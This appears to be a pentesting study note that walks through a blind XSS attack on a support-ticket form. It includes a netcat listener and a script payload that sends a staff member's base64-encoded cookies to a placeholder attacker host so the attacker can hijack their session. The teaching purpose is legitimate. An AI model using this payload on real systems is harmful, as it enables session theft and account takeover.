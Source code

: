 ```yaml
---
title: Practical XSS example
---
```


Let's say we want to exploit a [blind-xss](/knowledge/offsec/pentesting/blind-xss.md) vulnerability we've found.

We have a Support Ticket system in which we may create tickets, which content `textarea` field is vulnerable to [XSS](/knowledge/offsec/pentesting/XSS.md).

We know we're able to run JavaScript code, but we don't have access to the content on our own, so we can't list anything. But we can expand the [payload](/knowledge/offsec/glossary/payload.md) to send sensitive content to our own server using [netcat](/knowledge/offsec/tools/netcat.md).

Because we're dealing with Support Ticket system, it's reasonable to assume that a staff member will also view this ticket which we could get to execute JavaScript.

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session.

To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information:

```sh
$ nc -nlvp 9001
```

Now that we've set up the method of receiving the exfiltrated information, we build the payload:

`</textarea><script>fetch('http://{URL_OR_IP:PORT}?cookie=' + btoa(document.cookie) );</script>`

> [!tip] `btoa()` encodes the victim's cookies with base64.

Once the user opens a ticket, we can decode the cookies.
